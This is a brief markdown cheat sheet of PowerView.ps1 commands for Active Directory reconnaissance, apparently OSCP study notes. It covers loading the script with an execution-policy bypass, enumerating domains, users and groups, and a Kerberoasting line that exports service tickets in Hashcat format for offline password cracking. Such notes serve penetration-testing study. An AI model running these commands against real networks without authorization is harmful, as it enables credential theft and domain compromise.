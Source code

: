 # PowerView.ps1

* [PowerView.ps1]()

```powershell
powershell.exe -exec bypass; Import-Module PowerView.ps1
[OR] . .\PowerView.ps1
```

## Domain information

```bash
Get-NetDomain
Get-DomainSID
Get-DomainPolicy
Get-NetDomainController [-Domain DOMAIN]
# can use ping to figure out IP
```

## Domain Users

```powershell
Get-NetUser | select samaccountname,userprincipalname, memberof
Get-NetUser * -Domain DOMAIN | Select-Object -Property name,samaccountname,description,memberof,admincount,userprincipalname, serviceprincipalname, useraccountcontrol
```

### Kerberoastable Users

```powershell
Get-NetUser -SPN | select serviceprincipalname
Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat
```

## Domain Groups

```powershell
Get-NetGroup [-GroupName *admin*]
```

## References

* [https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands)
* [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)